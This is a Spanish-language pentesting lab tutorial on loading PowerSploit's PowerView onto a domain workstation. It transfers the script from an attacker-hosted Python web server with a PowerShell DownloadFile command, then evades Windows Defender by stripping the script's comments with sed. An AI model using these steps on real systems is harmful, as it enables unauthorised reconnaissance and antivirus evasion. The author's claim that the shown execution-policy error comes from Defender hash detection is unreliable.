 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# PowerView

En este caso vamos a ver una herramienta bastante famosa para `hacking` a parte de otras en entornos de `Windows`.

Lo primero que vamos hacer es configurar una `GPO` que aplique a los diferentes equipos dentro de nuestro `DC`.

Esto lo vamos hacer ya que en los diferentes equipos que estan dentro del dominio del `DC` no puede ejecutarse scripts de `PowerShell` por defecto como medida de seguirdad, pero en algunos casos los `Administradores` necesitan habilitar esta opcion para hacer algunos cambios en los diferentes equipos y esto se hace mediante una regla de `GPO` para que se aplique a los equipos que queramos a la vez y no tengamos que ir uno por uno.

Por lo que vamos a irnos en el `DC` al panel de `Servidor del Administrador` -> `Herramientas` -> `Administracion de directivas de grupo` -> aqui vamos a crear una `GPO` a nivel de dominio que solo afecte a nuestro dominio click derecho en `corp.local` -> `Crear un GPO en este dominio y vincularlo aqui...` -> se llamara `Script Execution Policy` -> `Aceptar` -> click derecho en el `Script Execution Policy` -> `Editar` -> como vamos a crear una `GPO` que va a estar a nivel de equipo nos iremos a `Configuracion del Equipo` -> `Directivas` -> `Plantillas administrativas` -> `Componentes de Windows` -> `Windows PoweShell` -> pulsamos doble click en `Activar la ejecuccion de scripts` -> marcamos `Habilitada` -> seleccionamos en `Directivas de ejecuccion` el `Permitir Scripts locales y scripts remotos firmados` -> `Aplicar` -> `Aceptar`.

Con esto ya estaria aplicado correctamente esta `politica`/`GPO`, ahora tendremos que reiniciar los equipos del dominio que en mi caso son 2 y se aplicaran las politicas correctamente.

### Instalación de PowerView

De mientras vamos instalar `PowerView` en nuestro `kali`.

Vamos a suponer que para la auditoria nos han proporcionado credenciales de un usuario del dominio para conectarnos de forma remota, pero sin privilegios de administrador.

En el siguiente link vamos a ver un `suit/conjunto` de herramientas para todas las fases de un `pentest` de un ejercicio de seguridad o de `hacking etico` para normalmente realizar recopilacion de informacion, explotacion, analisis de vulnerabilidades, etc... Sobre equipos de `Microsoft` todas las cosas que hace estan implementadas en `PowerShell` por lo que es muy util para nosotros.

URL = [GitHub PowerSploit](https://github.com/PowerShellMafia/PowerSploit)

Vamos a irnos al modulo de `recon` (Reconocimiento) -> entraremos en `PowerView.ps1` en el script.

Una vez que estemos aqui dentro:

[Script PowerShell](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

Lo copiaremos entero y haremos lo siguiente:

```shell
nano PowerView.ps1

#Dentro del nano

<PEGAR_SCRIPT_POWERVIEW>
```

Lo guardamos y ya lo tendriamos listo en nuestro `kali`.

Vamos a probar 2 formas de enumerar un sistema `Windows` tanto con `PowerView` de forma automatizada, como de forma manual sin `PwerView` ya que en algunos casos esto peude ser detectado por antivirus o herramientas de seguridad.

Imaginemos que nos propocionan la maquina `WS01` para realizar nuestras pruebas de pentesting, vamos a probar de primeras el `PowerView` en dicha maquina de la siguiente forma:

### Transferencia de archivo .ps1 a maquina windows

Antes tendremos que realizar una pequeña configuracion ya que al reiniciar o apagar el equipo se desactiva, tendremos que darle click derecho en el `adaptador de red` -> `Ethernet` -> `Configuracion de uso compartido avanzado` -> y activar las 2 opciones `Activar la deteccion de redes` y `Activar el uso compartido de archivos e impresoras` -> `Guardar cambios` pedira credenciales de administrador, las metemos y listo.

<figure><img src="../../.gitbook/assets/image (225).png" alt=""><figcaption></figcaption></figure>

Con esto ya nos podremos pasar el archivo `.ps1` a la maquina `Windows` todo esto lo podremos hacer ya que tenemos acceso a dicha maquina.

Haremos el mismo proceso pero para con el `WS02`, por lo que si hacemos en un `PwerShell` lo siguiente:

```powershell
ping WS02
```

Tiene que dar `ping` y vicebersa.

Ahora nos vamos a crear en nuestro `kali` un servidor de `python3` en la misma carpeta del archivo `PowerView.ps1` para pasarnos el archivo de forma facil y sencilla, ya profundizaremos en tecnicas de `PostExplotacion` para este tipo de cosas, pero en este caso lo haremos de forma sencilla.

```shell
python3 -m http.server 80
```

Y en la maquina `Windows` buscaremos la siguiente direccion `URL` en un navegador web:

```
URL = http://<IP>/PowerView.ps1
```

Si le damos a `ENTER` veremos que se nos descarga el archivo.

O tambien lo podremos hacer desde un `PowerShell` de la siguiente forma:

```powershell
cd .\Desktop
(New-Object System.NET.WebClient).DownloadFile("http://<IP>/PowerView.ps1", "PowerView.ps1")
```

Una vez que ya tengamos el archivo en nuestro escritorio de `WS01` haremos lo siguiente.

### Prueba de forma automatica PoweView.ps1

Ahora para lanzar este script lo hariamos de la siguiente forma en un `PwerShell` del equipo `WS01`:

```powershell
. .\PowerView.ps1
```

Info:

```
. : No se puede cargar el archivo C:\Users\empleado1\Desktop\PowerView.ps1. El archivo C:\Users\empleado1\Desktop\PowerView.ps1 no está firmado
digitalmente. No se puede ejecutar este script en el sistema actual. Para obtener más información acerca de la ejecución de scripts y la configuración de la
directiva de ejecución, consulta about_Execution_Policies en https:/go.microsoft.com/fwlink/?LinkID=135170.
En línea: 1 Carácter: 3
+ . .\PowerView.ps1
+   ~~~~~~~~~~~~~~~
    + CategoryInfo          : SecurityError: (:) [], PSSecurityException
    + FullyQualifiedErrorId : UnauthorizedAccess
```

Nos da un error de que puede contener archivos maliciosos y no lo ejecuta, ya que `Windows Defender` tiene guardado el `hash` de dicho fichero ya que se utiliza mucho para auditorias o practicas de `hacking etico` por lo que lo bloquea.

### Bypass Windows Defender PowerView

Lo que tendremos que hacer sera eliminar todos los comentarios del script para que no tenga esa `"firma"` y que el `hash` con el que esta identificando el `Windows Defender` no sea el mismo, por lo que lo va a tomar como un archivo legitimo, nos iremos al `kali` y pondremos lo siguiente:

```shell
sed '/<#/,/#>/d' PowerView.ps1 > new_powerview.ps1
```

Ahora una vez que ya hayamos eliminado todos los comentarios con este comando, nos lo volveremos a pasar al `WS01` como hicimos anteriormente, una vez que ya lo tengamos en el equipo, ejecutaremos el mismo comando de antes de `PowerShell`:

```powershell
. .\new_powerview.ps1
```

Con esto no nos aparecera nada por lo que lo ejecutamos correctamente y ya podremos utilizar `PowerView` en este equipo.
